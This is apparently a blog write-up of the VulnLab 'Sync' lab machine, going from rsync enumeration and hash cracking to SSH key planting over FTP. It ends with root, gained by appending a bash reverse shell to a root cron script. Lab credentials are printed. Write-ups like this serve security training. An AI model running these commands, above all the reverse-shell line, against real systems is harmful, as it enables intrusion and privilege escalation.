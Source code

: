 ```yaml
---
title: VulnLab -- Sync Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [enumeration,web exploitaion]
image:
    path: images/sync-banner.png
---
```

# Sync

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Sync** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/sync-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 21,22,80,873 --min-rate=1000 10.10.64.150
```

![image.png](../images/sync.png)

Now let’s see the website running on port 80

![image.png](../images/sync%201.png)

As we see it’s a simple login page

Now let’s go to the rsync service and see if there is any shares

```bash
rsync 10.10.64.150::
```

![image.png](../images/sync%202.png)

and we have a httpd so let’s download it’s content

```bash
rsync 10.10.64.150::"httpd/www/dashboard.php" .
rsync 10.10.64.150::"httpd/www/index.php" . 
rsync 10.10.64.150::"httpd/www/logout.php" .
```

![image.png](../images/sync%203.png)

now let’s download the site database

```bash
rsync 10.10.64.150::"httpd/db/site.db" .
```

![image.png](../images/sync%204.png)

now let’s review the code!

![image.png](../images/sync%205.png)

> First we will notice that the code is vulnerable to sql injection but the most interesting thing is that the hash is calculated by concatenating the $secure ,$username and $password variables
> 

So let’s go and extract the passwords from the database we got

```bash
 SELECT * FROM users;
```

![image.png](../images/sync%206.png)

> Now we have everything we need the username and the secure
username: admin
hash: 7658a2741c9df3a97c819584db6e6b3c
username: triss
hash: a0de4d7f81676c3ea9eabcadfd2536f6
secure: 6c4972f3717a5e881e282ad3105de01e
> 

now let’s try to crack the password

```bash
cat crackme.txt
```

![image.png](../images/sync%207.png)

now let’s use hashcat to crack it

```bash
hashcat -m 20 crackme.txt /usr/share/wordlists/rockyou.txt
```

![image.png](../images/sync%208.png)

and we got the password for the user triss so let’s reuse it in the ftp

```bash
username: triss
password: gerald
```

![image.png](../images/sync%209.png)

now let’s generate a SSH keys

```bash
ssh-keygen
```

![image.png](../images/sync%2010.png)

now copy the public key in your folder and name it authorized_keys

```bash
cp ~/.ssh/id_ed25519.pub authorized_keys
```

![image.png](../images/sync%2011.png)

now in the ftp let’s make a .ssh directory

```bash
mkdir .ssh
```

![image.png](../images/sync%2012.png)

now navigate to it and upload the authorized_keys file

```bash
put authorized_keys
```

![image.png](../images/sync%2013.png)

Now let’s try to SSH  to the machine

```bash
ssh triss@10.10.64.150
```

![image.png](../images/sync%2014.png)

and we logged in

Now let’s navigate to the /backup directory

![image.png](../images/sync%2015.png)

and as we see alot of zip files is created so let’s download one of them

```bash
unzip 1743232081.zip 
```

![image.png](../images/sync%2016.png)

notice that there is a backup for the passwd and shadow file so let’s abuse it by making a cracking there hash

```bash
unshadow passwd shadow > crackme.txt
```

![image.png](../images/sync%2017.png)

Now let’s go and crack it

```bash
john crackme.txt --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/sync%2018.png)

> Notice that we got the passwords for all users
username: sa
password: sakura
username: jennifer
password: gerald
> 

Now let’s switch to the sa user

```bash
su sa
```

![image.png](../images/sync%2019.png)

Now let’s go and see if there is any hidden script running in the background

```bash
./pspy64
```

![image.png](../images/sync%2020.png)

> Notice that there is a script running as root
> 

let’s go and see our permission on this file

```bash
ls -las /usr/local/bin/backup.sh
```

![image.png](../images/sync%2021.png)

Since we are the user sa we can edit the script and add a reverse shell

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.8.5.233/1337 0>&1'" >> /usr/local/bin/backup.sh
```

![image.png](../images/sync%2022.png)

as we see the reverse shell was added so let’s open a listener on our machine

```bash
nc -lvnp 1337
```

![image.png](../images/sync%2023.png)

now let’s wait for the reverse shell

![image.png](../images/sync%2024.png)

and we got root so let’s go and see the root flag

```bash
cd /root;ls -las
```

![image.png](../images/sync%2025.png)

Amazing we got root flag 🥳

![image.png](../images/sync%2026.png)

That’s it for the **Sync** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX